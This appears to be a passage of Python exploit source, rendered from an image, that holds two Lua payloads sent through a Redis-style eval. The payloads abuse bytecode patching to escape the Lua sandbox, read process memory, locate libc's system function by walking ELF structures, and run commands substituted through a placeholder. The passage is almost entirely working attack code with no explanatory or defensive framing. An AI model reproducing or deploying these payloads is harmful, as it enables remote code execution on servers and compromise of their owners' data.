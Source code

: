 ```python
	return (pattern % (c1, c2)) + (pattern % (c3, c4))


luacode1 = r'''eval 'local asnum = loadstring((string.dump(function(x) for i = x, x, 0 do return i end end):gsub("\96%z%z\128", "\22\0\0\128")))  local function double_to_dwords(x) if x == 0 then return 0, 0 end if x < 0 then x = -x end  local m, e = math.frexp(x)  if e + 1023 <= 1 then m = m * 2^(e + 1074) e = 0 else m = (m - 0.5) * 2^53 e = e + 1022 end  local lo = m % 2^32 m = (m - lo) / 2^32 local hi = m + e * 2^20  return lo, hi end  local function dwords_to_double(lo, hi) local m = hi % 2^20 local e = (hi - m) / 2^20 m = m * 2^32 + lo  if e ~= 0 then m = m + 2^52 else e = 1 end  return m * 2^(e-1075) end  local function dword_to_string(x) local b0 = x % 256; x = (x - b0) / 256 local b1 = x % 256; x = (x - b1) / 256 local b2 = x % 256; x = (x - b2) / 256 local b3 = x % 256  return string.char(b0, b1, b2, b3) end  local function qword_to_string(x) local lo, hi = double_to_dwords(x) return dword_to_string(lo) .. dword_to_string(hi) end  local function add_dword_to_double(x, n) local lo, hi = double_to_dwords(x) return dwords_to_double(lo + n, hi) end  local function band(a, b) local p, c=1, 0 while a > 0 and b > 0 do local ra, rb = a % 2, b % 2 if ra + rb > 1 then c = c + p end a, b, p = (a - ra) / 2, (b - rb) / 2, p * 2 end  return c end  rawset(_G, "add_dword_to_double", add_dword_to_double) rawset(_G, "asnum", asnum) rawset(_G, "double_to_dwords", double_to_dwords) rawset(_G, "dwords_to_double", dwords_to_double) rawset(_G, "dword_to_string", dword_to_string) rawset(_G, "qword_to_string", qword_to_string) rawset(_G, "band", band) collectgarbage "stop" debug.sethook()' 0'''
luacode2 = r'''eval 'coroutine.wrap(loadstring(string.dump(function() local magic = nil local function middle() local asnum = asnum local double_to_dwords = double_to_dwords local add_dword_to_double = add_dword_to_double local dwords_to_double = dwords_to_double local qword_to_string = qword_to_string local band = band local co = coroutine.wrap(function() end) local substr = string.sub local find = string.find local upval  local luastate1 = asnum(coroutine.running()) local luastate2 = add_dword_to_double(luastate1, 8)  local n1 = 1 local n2 = 2 local n4 = 4 local n6 = 6 local n7 = 7 local n8 = 8 local n16 = 16 local n24 = 24 local n32 = 32  local hfff = 0xfff00000 local h38 = 0x38  local PT_DYNAMIC = 2 local DT_NULL = 0 local DT_STRRAB = 5 local DT_SYMTAB = 6 local DT_DEBUG = 21  local libc = "libc.so." local system = "__libc_system" local null = "\0" local empty = "" local luastate1_bkp local luastate2_bkp local lo, hi local base local ptheader local dynamic local symbol local debug  local s, e, tmp, n local str = empty local link_map local libc_dynamic local libc_base local libc_system local libc_strtab local libc_symtab  local commands = { XXXCOMMANDSXXX }  local function put_into_magic(n) upval = "nextnexttmpaddpa" .. qword_to_string(n) local upval_ptr = qword_to_string(add_dword_to_double(asnum(upval), 24)) magic = upval_ptr .. upval_ptr .. upval_ptr end  put_into_magic(add_dword_to_double(asnum(co), n32))  lo, hi = double_to_dwords(asnum(magic)) base = dwords_to_double(band(lo, hfff), hi) put_into_magic(add_dword_to_double(base, n32))  lo, hi = double_to_dwords(asnum(magic)) ptheader = add_dword_to_double(base, lo)  while true do put_into_magic(ptheader) lo, hi = double_to_dwords(asnum(magic)) if lo == PT_DYNAMIC then put_into_magic(add_dword_to_double(ptheader, n16)) dynamic = asnum(magic) break else ptheader = add_dword_to_double(ptheader, h38) end end  while true do put_into_magic(dynamic) lo, hi = double_to_dwords(asnum(magic))  if lo == DT_DEBUG then put_into_magic(add_dword_to_double(dynamic, n8)) debug = asnum(magic) break else dynamic = add_dword_to_double(dynamic, n16) end end  put_into_magic(add_dword_to_double(debug, n8)) link_map = asnum(magic)  while true do  put_into_magic(add_dword_to_double(link_map, n8)) n = asnum(magic)  while true do put_into_magic(n) tmp = qword_to_string(asnum(magic))  s, e = find(tmp, null) if s then str = str .. substr(tmp, n1, s - n1) break else str = str .. tmp n = add_dword_to_double(n, n8) end end  s, e = find(str, libc) if s then put_into_magic(link_map) libc_base = asnum(magic)  put_into_magic(add_dword_to_double(link_map, n16)) libc_dynamic = asnum(magic)  while true do put_into_magic(libc_dynamic) lo, hi = double_to_dwords(asnum(magic)) put_into_magic(add_dword_to_double(libc_dynamic, n8))  if lo == DT_NULL then break elseif lo == DT_STRRAB then libc_strtab = asnum(magic) elseif lo == DT_SYMTAB then libc_symtab = asnum(magic) end  libc_dynamic = add_dword_to_double(libc_dynamic, n16) end  break else put_into_magic(add_dword_to_double(link_map, n24)) link_map = asnum(magic) end end  while true do put_into_magic(libc_symtab) lo, hi = double_to_dwords(asnum(magic))  n = add_dword_to_double(libc_strtab, lo) str = empty while true do put_into_magic(n) tmp = qword_to_string(asnum(magic))  s, e = find(tmp, null) if s then str = str .. substr(tmp, n1, s - n1) break else str = str .. tmp n = add_dword_to_double(n, n8) end end  if str and str == system then put_into_magic(add_dword_to_double(libc_symtab, n8)) lo, hi = double_to_dwords(asnum(magic)) libc_system = add_dword_to_double(libc_base, lo) break else libc_symtab = add_dword_to_double(libc_symtab, n24) end end  put_into_magic(add_dword_to_double(asnum(co), n32)) magic = libc_system put_into_magic(luastate1) luastate1_bkp = asnum(magic) put_into_magic(luastate2) luastate2_bkp = asnum(magic) for i=n1,#commands,n2 do put_into_magic(luastate1) magic = commands[i] put_into_magic(luastate2) magic = commands[i + n1] co() end put_into_magic(luastate1) magic = luastate1_bkp put_into_magic(luastate2) magic = luastate2_bkp end middle() end):gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1)))()' 0'''

```